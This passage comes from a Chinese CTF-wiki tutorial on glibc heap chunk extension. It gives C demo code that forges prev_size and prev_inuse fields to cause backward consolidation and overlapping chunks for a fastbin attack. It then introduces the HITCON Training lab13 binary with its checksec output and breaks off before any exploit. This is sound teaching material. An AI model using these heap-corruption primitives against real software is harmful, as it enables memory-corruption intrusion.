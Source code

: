 ```
}
```
在malloc(0x50)对extend区域重新占位后，其中0x10的fastbin块依然可以正常的分配和释放，此时已经构成overlapping，通过对overlapping的进行操作可以实现fastbin attack。

## 基本示例5：通过extend前向overlapping
这里展示通过修改pre_inuse域和pre_size域实现合并前面的块
```
int main(void)
{
	void *ptr1,*ptr2,*ptr3,*ptr4;
	ptr1=malloc(128);//smallbin1
	ptr2=malloc(0x10);//fastbin1
	ptr3=malloc(0x10);//fastbin2
	ptr4=malloc(128);//smallbin2
	malloc(0x10);//防止与top合并
	free(ptr1);
	*(int *)((long long)ptr4-0x8)=0x90;//修改pre_inuse域
	*(int *)((long long)ptr4-0x10)=0xd0;//修改pre_size域
	free(ptr4);//unlink进行前向extend
	malloc(0x150);//占位块
	
}
```
前向extend利用了smallbin的unlink机制，通过修改pre_size域可以跨越多个chunk进行合并实现overlapping。

## HITCON Trainging lab13
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/chunk-extend-shrink/hitcontraning_lab13)

### 基本信息

```shell
➜  hitcontraning_lab13 git:(master) file heapcreator
heapcreator: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e69111eca74cba2fb372dfcd3a59f93ca58f858, not stripped
➜  hitcontraning_lab13 git:(master) checksec heapcreator
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/hitcontraning_lab13/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为 64 位动态链接程序，主要开启了 Canary 保护与 NX 保护。

### 基本功能
